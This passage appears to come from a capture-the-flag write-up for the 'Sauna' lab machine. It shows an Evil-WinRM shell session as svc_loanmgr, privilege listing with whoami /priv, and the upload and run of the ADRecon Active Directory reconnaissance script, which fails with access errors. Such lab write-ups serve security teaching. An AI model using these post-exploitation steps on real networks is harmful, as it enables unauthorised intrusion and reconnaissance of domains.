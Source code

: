 
    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


    USER CLAIMS INFORMATION
    -----------------------

    User claims unknown.

    Kerberos support for Dynamic Access Control on this device has been disabled.

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> WHOAMI /PRIV

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


## Getting AD privileges



We need to list our AD privileges.
We upload [ADRecon](https://github.com/sense-of-security/ADRecon) powershell
script on the box, run it and download the results.

(for more information about AD attacks: [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md).)

    :::text
    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> upload /root/pentest/ADRecon.ps1 .\
    Info: Uploading /root/pentest/ADRecon.ps1 to .\

    Data: 835464 bytes of 835464 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> .\ADRecon.ps1
    [*] ADRecon v1.1 by Prashant Mahajan (@prashant3535)
    Access denied
    At C:\Users\svc_loanmgr\Documents\ADRecon.ps1:11249 char:25
    + ...           $computer = Get-CimInstance -ClassName Win32_ComputerSystem
    +                           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (root\cimv2:Win32_ComputerSystem:String) [Get-CimInstance], CimException
        + FullyQualifiedErrorId : HRESULT 0x80041003,Microsoft.Management.Infrastructure.CimCmdlets.GetCimInstanceCommand
    Computer Role could not be identified.
    Cannot find a variable with the name 'computerrole'.
    At C:\Users\svc_loanmgr\Documents\ADRecon.ps1:11292 char:5
    +     Remove-Variable computerrole
    +     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : ObjectNotFound: (computerrole:String) [Remove-Variable], ItemNotFoundException
        + FullyQualifiedErrorId : VariableNotFound,Microsoft.PowerShell.Commands.RemoveVariableCommand
    [*] Running on \SAUNA -
    [*] Commencing - 02/19/2020 15:41:03
    [-] Domain